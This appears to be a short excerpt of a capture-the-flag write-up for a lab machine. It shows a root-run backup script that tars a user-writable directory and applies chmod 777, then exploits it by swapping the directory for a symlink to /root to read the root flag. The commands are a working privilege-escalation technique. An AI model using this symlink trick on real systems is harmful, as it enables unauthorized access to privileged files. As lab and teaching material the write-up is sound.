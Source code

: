 ```
giovanni@teacher:~/work$ ls -lR
ls -lR
.:
total 8
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27 04:58 courses
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27 04:34 tmp

./courses:
total 4
drwxr-xr-x 2 root root 4096 Jun 27 04:15 algebra

./courses/algebra:
total 4
-rw-r--r-- 1 giovanni giovanni 109 Jun 27 04:12 answersAlgebra

./tmp:
total 8
-rwxrwxrwx 1 root root  256 Dec  2 03:52 backup_courses.tar.gz
drwxrwxrwx 3 root root 4096 Jun 27 04:58 courses

./tmp/courses:
total 4
drwxrwxrwx 2 root root 4096 Jun 27 04:15 algebra

./tmp/courses/algebra:
total 4
-rwxrwxrwx 1 giovanni giovanni 109 Jun 27 04:12 answersAlgebra

giovanni@teacher:~/work$ date
Sun Dec  2 03:52:38 CET 2018
```

The backup script that runs as root is located in `/usr/bin/backup.sh`:
```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

We can get the root flag by replacing the `courses` directory with a symlink to `/root`, waiting for the next archive to be created then untar it to retrieve the root flag:
```
giovanni@teacher:~/work$ mv courses test
giovanni@teacher:~/work$ ln -s /root courses
[ ... wait a minute ...]
giovanni@teacher:~/work/tmp/courses$ cat root.txt
cat root.txt
4f3a8...
```
